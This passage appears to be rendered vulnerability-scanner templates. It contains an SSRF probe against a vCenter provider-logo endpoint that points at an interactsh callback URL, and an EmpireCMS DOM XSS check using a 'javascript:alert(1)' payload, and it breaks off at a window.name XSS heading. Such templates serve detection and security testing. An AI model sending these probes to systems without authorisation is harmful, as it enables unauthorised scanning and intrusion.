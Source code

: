 ### URL

- {{BaseURL}}/ui/vcav-bootstrap/rest/vcav-providers/provider-logo?url=https://{{interactsh-url}}

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

**Type - status**

- status
  1. 200

---

# EmpireCMS DOM Cross Site-Scripting

## Description

- EmpireCMS is vulnerable to a DOM based cross-site scripting attack.
- severity - high
- tags - empirecms,cnvd,cnvd2021,xss,domxss

## Requests

- Method - GET

### URL

- {{BaseURL}}/e/ViewImg/index.html?url=javascript:alert(1)

### Matchers

**Type - word**

- part - body
- words
  1. if(Request("url")!=0)
  2. href=\""+Request("url")+"\"
- condition - and

**Type - status**

- status
  1. 200

---

# window.name - DOM Cross-Site Scripting
